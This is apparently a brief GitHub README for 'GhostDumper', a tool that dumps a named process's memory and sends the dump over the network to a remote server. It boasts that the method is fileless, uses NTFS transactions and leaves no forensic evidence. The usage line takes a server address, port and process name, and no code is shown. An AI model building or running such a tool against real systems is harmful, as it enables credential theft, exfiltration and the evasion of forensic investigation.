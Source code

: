 # GhostDumper
Fileless - over network process memory dumper

Usage GhostDumper.exe <server_address> <port> <process name>
  
This program performs proc dump and return the dump file back home.
The whole process is fileless, using ntfs transactions, leaving no forensic evidence.
